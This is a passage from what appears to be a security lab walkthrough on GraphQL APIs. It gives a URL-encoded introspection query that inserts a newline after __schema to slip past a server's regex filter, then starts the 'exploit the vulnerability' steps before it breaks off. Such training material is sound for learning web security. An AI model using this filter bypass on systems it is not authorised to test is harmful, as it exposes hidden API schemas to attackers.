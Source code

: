 ```
  type {
    ...TypeRef
  }
  defaultValue
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
      }
    }
  }
}

```


Encoded URL query
```HTTP
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

4. Notice that the response now includes full introspection details. This is because the server is configured to exclude queries matching the regex `"__schema{"`, which the query no longer matches even though it is still a valid introspection query.


**Now Exploit the vulnerability**

1. Right-click the request and select **GraphQL > Save GraphQL queries to site map**.
    